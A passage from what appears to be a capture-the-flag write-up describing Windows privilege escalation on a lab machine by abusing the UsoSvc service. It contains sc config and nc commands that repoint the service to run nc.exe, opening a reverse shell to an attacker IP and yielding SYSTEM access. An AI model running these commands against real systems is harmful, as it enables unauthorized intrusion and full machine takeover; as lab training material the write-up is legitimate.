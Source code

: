 `sc qc usosvc`

The path was successfully set. Time to start the service. First set up the nc listener on the attacker machine to catch the shell.

![Pasted image 20230304114828](https://user-images.githubusercontent.com/71300144/222976328-1bb7b5e6-03aa-4e8e-8065-13b6e1db4541.png)

I Kept getting an Error and the service would not start so I decided to reboot the machine because this should work. I have all the required permissions and the path was successfully changed. Admittedly at this point I looked at a couple different writeups to see if this was actually the correct way to escalate and from what I read it was.

![Pasted image 20230304114802](https://user-images.githubusercontent.com/71300144/222976348-0379934f-1160-41e2-b25a-2fe30e1b2868.png)

Restarting the box and getting to the same point I was at I configured the UsoSvc to connect to my machine via nc.exe

- `sc qc UsoSvc`
- `sc config UsoSvc binpath="c:\users\mssql-svc\downloads\nc.exe 10.10.14.7 9002 -d cmd.exe"`
- start nc listener `nc -lvnp 9002`
- `sc stop UsoSvc`
- `sc start UsoSvc`

There it is a reverse shell as NT Authority/System!

![Pasted image 20230304120125](https://user-images.githubusercontent.com/71300144/222976368-cdba5b7c-e674-4470-9b28-fa7dfff5ed06.png)

# Box Owned








